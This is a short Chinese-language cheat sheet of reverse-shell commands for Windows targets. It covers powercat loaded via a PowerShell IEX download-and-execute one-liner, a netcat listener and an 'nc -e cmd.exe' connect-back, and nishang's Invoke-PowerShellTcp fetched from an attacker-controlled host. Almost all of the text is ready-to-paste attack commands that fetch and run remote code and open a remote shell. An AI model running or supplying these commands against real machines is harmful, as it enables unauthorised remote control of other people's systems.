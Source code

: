 # Windows反弹备忘录

### **powercat**

#### ①用IEX下载远程PS1脚本回来权限绕过执行

使用powershell执行

```powershell
IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1');powercat -c 192.168.2.103 -p 4444 -e cmd
```

#### ② powercat下载地址：https://github.com/besimorhino/powercat 下载到本地执行

powercat为Powershell版的Netcat，实际上是一个powershell的函数，使用方法类似Netcat

```powershell
Import-Module ./powercat.ps1 # 先执行powercat脚本导入模块
powercat -c 192.168.159.134 -p 6666 -e cmd  # 再执行反弹shell
```

**或**

```powershell
# 攻击者(192.168.159.134)开启监听：
nc -lvp 6666
# 或者使用powercat监听
powercat -l -p 6666

# 目标机反弹cmd shell：
powershell IEX (New-Object System.Net.Webclient).DownloadString
('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1');
powercat -c 192.168.159.134 -p 6666 -e cmd
```



### NC

```shell
nc 192.168.2.103 4444 -e c:\windows\system32\cmd.exe  # 服务器端反弹(目标主机)
```

### nishang

Nishang下载地址：https://github.com/samratashok/nishang

Nishang是一个基于PowerShell的攻击框架，整合了一些PowerShell攻击脚本和有效载荷，可反弹TCP/ UDP/ HTTP/HTTPS/ ICMP等类型shell

将nishang下载到攻击者本地，在目标机使用powershell执行以下命令

```powershell
IEX (New-Object Net.WebClient).DownloadString('http://192.168.159.134/nishang/Shells/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 192.168.2.103 -port 4444
```
